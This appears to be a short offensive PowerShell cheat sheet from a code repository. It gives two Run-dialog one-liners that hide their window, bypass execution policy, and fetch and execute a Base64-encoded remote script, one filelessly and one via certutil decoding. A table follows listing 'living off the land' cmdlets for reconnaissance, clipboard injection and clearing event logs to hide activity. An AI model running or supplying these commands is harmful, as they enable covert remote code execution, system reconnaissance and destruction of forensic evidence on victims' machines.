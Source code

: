 ## Execute fileless Base64 encoded script from Run Dialog:

```powershell
powershell -NoP -W H -Ep Bypass &([scriptblock]::Create([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((irm LINK)))))
```

## Download and execute Base64 encoded script from Run Dialog:

```powershell
powershell -NoP -W H -Ep Bypass irm LINK -O $env:USERPROFILE\e.txt;certutil -f -decode $env:USERPROFILE\e.txt $env:USERPROFILE\d.ps1;iex $env:USERPROFILE\d.ps1
```

------------------------------

# Living of the Land Cmdlets:

| Cmdlet                  | Description                                                                                          |
|-------------------------|------------------------------------------------------------------------------------------------------|
| Get-StartApps           | Used to retrieve a list of Start menu apps and tiles for the current user on a Windows operating system. |
| Set-Clipboard           | Used to set clipboard content. Essentially clipboard injection.                                       |
| Get-Clipboard           | Retrieve clipboard content.                                                                          |
| Get-LocalUser           | Return all local users on the system.                                                                |
| Get-NetFirewallProfile  | Gets properties for a firewall profile.                                                              |
| Get-NetFirewallRule     | Gets properties for a firewall rule.                                                                 |
| Get-ComputerInfo        | Retrieves all system and operating system properties from the computer                               |
| Get-Service             | Retrieves a list of all services on the computer                                                     |
| Get-EventLog            | Retrieves events and event logs from local and remote computers (only available in Windows PowerShell 5.1) |
| Get-Process             | Retrieves a list of all active processes on a local or remote computer                               |
| Clear-EventLog          | Deletes all of the entries from the specified event logs on the local computer or on remote computers |
| Clear-RecycleBin        | Deletes the content of a computer's recycle bin                                                       |
